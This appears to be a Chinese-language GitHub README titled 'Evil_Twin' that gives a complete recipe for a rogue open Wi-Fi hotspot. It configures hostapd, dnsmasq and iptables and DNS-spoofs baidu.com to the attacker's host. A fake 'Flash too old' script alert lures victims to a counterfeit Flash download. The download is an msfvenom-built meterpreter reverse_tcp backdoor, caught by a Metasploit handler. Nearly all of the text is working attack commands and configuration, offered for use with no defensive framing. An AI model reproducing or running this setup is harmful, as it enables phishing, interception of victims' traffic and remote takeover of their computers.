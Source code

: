 # Evil_Twin

安装:
apt install hostapd
apt install dnsmasq

//配置网卡规则
iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE   
iptables --append FORWARD --in-interface wlan1mon -j ACCEPT  
//设置网关IP以及子网掩码
ifconfig wlan1mon up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
//开启流量转发
echo 1 > /proc/sys/net/ipv4/ip_forward

dnsmasq.conf
interface=wlan1mon
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
dhcp-option=3, 192.168.1.1
dhcp-option=6, 192.168.1.1
server=8.8.8.8
address=/baidu.com/192.168.1.1
log-queries
log-dhcp
listen-address=127.0.0.1

hostapd.conf:
interface=wlan1mon
driver=nl80211
ssid=freewifi
hw_mode=g
channel=6
macaddr_acl=0
ignore_broadcast_ssid=0

index.html:
<head>
<meta charset='utf-8'>
<script src="http://192.168.1.1/new.js"> </script>
</head>

new.js:
window.alert = function(name){
    var iframe = document. createElement("IFRAME");
    iframe.style.display="none";
    iframe.setAttribute("src",'data:text/plain,');
    document. documentElement.appendChild(iframe);
    window.frames [0].window.alert(name);
    iframe.parentNode.removeChild(iframe);
    }
    alert( "您的FLASH版本过低，尝试升级后访问该页面! ");
    window. location.href="http://192.168.1.1/flash";


下载flash模板
git clone https://github.com/r00tSe7en/Fake-flash.cn


生成后门:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f exe -o /root/awa.exe

service apache2 start //启动web服务器
hostapd hostapd.conf //创建wifi
dnsmasq -C dnsmasq.conf -d //dns服务
python3 -m http.server 8080 //后门下载

msfconsole //启动
use exploit/multi/handler    //使用监听
set payload windows/x64/meterpreter/reverse_tcp   //设置payload
set lhost 192.168.1.1 //设置IP
set lport 4444  //设置端口
run //启动


iptables出现问题解决方法:https://zhuanlan.zhihu.com/p/118632728
